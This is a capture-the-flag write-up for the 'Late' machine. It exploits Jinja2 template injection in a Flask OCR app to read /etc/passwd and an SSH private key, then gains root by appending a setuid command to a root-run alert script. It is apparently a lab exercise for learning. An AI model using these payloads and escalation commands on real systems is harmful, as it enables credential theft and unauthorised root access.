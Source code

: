 # Late CTF

Late is a CTF that focusses on OCR recognition, Enumeration of existing vulnerabilities and a bit of focus on processes.

## Enumeration

We start off with a nmap scan with the following command:
```
nmap -Pn -sV -sC -v <TARGET_IP>
```

![Image](images/1.png)

Here, we see the `images.late.htb` domain (You can see this domain in the website too, but its convenient to work with it here). Add an entry to your `/etc/hosts` like this:

```
10.10.11.156	images.late.htb
```

Navigate to `images.late.htb` and we see this:

![Image](images/2.png) 

This seems like some form of OCR technology made with Flask. Flask is a web framework written in Python and depends on Jinja (A templating engine). We can test out the web page out by trying the following image and looking at the output we get.	

### Payload:

![Image](images/3.png)

### Result:

![Image](images/4.png)

This output shows that the result is shown in some form of HTML format. Python can be executed in an HTML file with the `{{ expression }}` format. A little enumeration on Jinja and Flask tells us about an SSTI (Server Side Template injection) vulnerability which allows Python code to be executed when in the formerly mentioned format. A proof of concept would be a payload as such:

### Payload:

![Image](images/5.png)

### Result:

![Image](images/6.png)

While this does prove that code can be remotely executed, we can't do any form of imports or direct commands as jinja simply does not execute them. We can only execute code using builtin methods. Here we start looking for SSTI payloads. We can find payloads on this website: https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection

## Exploit

For the exploit, we will be using this payload:

```
{{ get_flashed_messages.__globals__.__builtins__.open("/etc/passwd").read() }}
```

Payload:

![Image](images/7.png)

Result:

![Image](images/8.png)

Here, the most important entry is:

> `svc_acc:x:1000:1000:Service Account:/home/svc_acc:/bin/bash`

We can also try to get the private key using this payload:

### Payload:

![Image](images/9.png)

### Results:

![Image](images/10.png)

Now what we have a private key, we can remove the `<p>` and `</p>` tag and do a `chmod 600 <file>` and make it useable for SSH.

SSH command will look like this:

```
ssh -i id_rsa svc_acc@10.10.11.156
```

We can get user.txt with `cat user.txt`

## Privilege Escalation

Start off by running linPEAS.sh (You can host a http.server and bring linPEAS from your machine to the target machine)

![Image](images/11.png)

Here, the most interesting file is `/usr/local/sbin` which has the `ssh-alert.sh` file. Use `cat ssh-alert.sh` and we see that it is some form of ssh alert. 

![Image](images/12.png)

We can check how the it is executed with the pspy64 (https://github.com/DominicBreuker/pspy). Get the binary onto the target machine with a http server and run it. At the same time, try to make another SSH session.

![Image](images/13.png)

Here we can see that the file is run as root, so we can add some malicious code to run on it to take advantage of, like this:

```
echo "chmod +s /bin/bash" >> ssh-alert.sh
```
And try to log in again

You can get the root shell with `bash -p` and the flag can be found with `cat /root/root.txt`.

